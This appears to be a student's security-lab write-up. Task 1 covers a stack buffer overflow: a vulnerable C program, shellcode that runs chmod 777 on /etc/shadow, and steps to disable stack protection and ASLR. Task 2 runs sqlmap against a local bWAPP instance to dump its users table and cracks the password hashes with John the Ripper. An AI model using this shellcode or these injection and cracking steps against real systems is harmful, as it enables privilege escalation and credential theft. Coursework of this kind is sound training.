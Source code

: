 # 22110088 - Bui Tho Anh Tu

## Task 1: Software buffer overflow attack
Given a vulnerable C program 
```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
Compile the shellcode:
```
gcc -g -fno-stack-protector -z execstack -o shellcode shellcode.c -mpreferred-stack-boundary=2
```
Compile the C program:
```
gcc -g -fno-stack-protector -z execstack -o vulnerability vulnerability.c -mpreferred-stack-boundary=2
```
Make the shellcode executed as root:
```
sudo chown root shellcode
sudo chmod 4777 shellcode
```
Disable the Address Space Layout Randomization (ASLR)
```
sudo sysctl -w kernel.randomize_va_space=0
```

Create a symbolic link to /bin/sh
```
sudo ln -sf /bin/zsh /bin/sh
```


# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
Select SQL Injection hack
![Select sql injection](https://github.com/user-attachments/assets/0c217fd8-30ad-4f84-8320-73229277a174)

Get the URL at the page
![Get the URL](https://github.com/user-attachments/assets/008a3c9e-32fb-45ff-9369-d9f863d58934)

Get the page cookies through Chrome DevTools
![Get cookies thourgh Chrom Devtool](https://github.com/user-attachments/assets/840826ad-4439-42b3-b5bd-d72fcd661fb5)

Find the available databases with the cookies
```bash
 sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms --dbs 
```
![Available DBs](https://github.com/user-attachments/assets/c6607de6-4b69-43df-af84-d7d0d0fbc921)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
Get the available tables in the database
```bash
 sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms --tables
```
![Available tables](https://github.com/user-attachments/assets/a13b0d64-ded1-4dbc-8a82-72597e3622f4)

[40 tables]
+----------------------------------------------+
| CHARACTER_SETS                               |
| COLLATIONS                                   |
| COLLATION_CHARACTER_SET_APPLICABILITY        |
| COLUMN_PRIVILEGES                            |
| FILES                                        |
| GLOBAL_STATUS                                |
| GLOBAL_VARIABLES                             |
| INNODB_BUFFER_PAGE                           |
| INNODB_BUFFER_PAGE_LRU                       |
| INNODB_BUFFER_POOL_STATS                     |
| INNODB_CMP                                   |
| INNODB_CMPMEM                                |
| INNODB_CMPMEM_RESET                          |
| INNODB_CMP_RESET                             |
| INNODB_LOCKS                                 |
| INNODB_LOCK_WAITS                            |
| INNODB_TRX                                   |
| KEY_COLUMN_USAGE                             |
| PARAMETERS                                   |
| PROFILING                                    |
| REFERENTIAL_CONSTRAINTS                      |
| ROUTINES                                     |
| SCHEMATA                                     |
| SCHEMA_PRIVILEGES                            |
| SESSION_STATUS                               |
| SESSION_VARIABLES                            |
| STATISTICS                                   |
| TABLESPACES                                  |
| TABLE_CONSTRAINTS                            |
| TABLE_PRIVILEGES                             |
| USER_PRIVILEGES                              |
| VIEWS                                        |
| COLUMNS                                      |
| ENGINES                                      |
| EVENTS                                       |
| PARTITIONS                                   |
| PLUGINS                                      |
| PROCESSLIST                                  |
| TABLES                                       |
| TRIGGERS                                     |
+----------------------------------------------+

Database: bWAPP
[5 tables]
+----------------------------------------------+
| blog                                         |
| heroes                                       |
| movies                                       |
| users                                        |
| visitors                                     |
+----------------------------------------------+

Database: mysql
[24 tables]
+----------------------------------------------+
| event                                        |
| host                                         |
| plugin                                       |
| user                                         |
| columns_priv                                 |
| db                                           |
| func                                         |
| general_log                                  |
| help_category                                |
| help_keyword                                 |
| help_relation                                |
| help_topic                                   |
| ndb_binlog_index                             |
| proc                                         |
| procs_priv                                   |
| proxies_priv                                 |
| servers                                      |
| slow_log                                     |
| tables_priv                                  |
| time_zone                                    |
| time_zone_leap_second                        |
| time_zone_name                               |
| time_zone_transition                         |
| time_zone_transition_type                    |
+----------------------------------------------+

Database: performance_schema
[17 tables]
+----------------------------------------------+
| cond_instances                               |
| events_waits_current                         |
| events_waits_history                         |
| events_waits_history_long                    |
| events_waits_summary_by_instance             |
| events_waits_summary_by_thread_by_event_name |
| events_waits_summary_global_by_event_name    |
| file_instances                               |
| file_summary_by_event_name                   |
| file_summary_by_instance                     |
| mutex_instances                              |
| performance_timers                           |
| rwlock_instances                             |
| setup_consumers                              |
| setup_instruments                            |
| setup_timers                                 |
| threads                                      |
+----------------------------------------------+

Get the columns in users table in bWAPP database
```bash
sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms -D bWAPP -T users --columns
```
![columns in users](https://github.com/user-attachments/assets/33feaf68-dce9-4390-b925-f38b33e26bee)

Get all users in users table in bWAPP database
```bash
sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms -D bWAPP -T users --dump
```
![users info](https://github.com/user-attachments/assets/5a609702-ac37-4e04-adc0-7b2386d52871)
![users info 2](https://github.com/user-attachments/assets/49834e33-b153-4f75-bf7b-22f5b176f6d4)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
Extract the hashed password collected users from the previous question
```bash
Import-Csv "C:\Users\ADMIN\AppData\Local\sqlmap\output\localhost\dump\bWAPP\users.csv" | ForEach-Object { $_.'password' } | Out-File -FilePath "C:\Users\ADMIN\Downloads\passwords.txt"
```
Output
![hashed stored](https://github.com/user-attachments/assets/d6927cdf-e99f-4026-9d38-422ea894a01b)
![Output stored](https://github.com/user-attachments/assets/1cd28001-6256-47e6-944f-c218788ede24)

Remove the decrypted password from the file
Use John the Ripper to crack the password
```bash
.\john --format=Raw-SHA1 C:\Users\ADMIN\Downloads\passwords.txt
```
![cracked passwords using john](https://github.com/user-attachments/assets/e72e0f3f-b843-4b7f-8db7-906bf9c250a5)
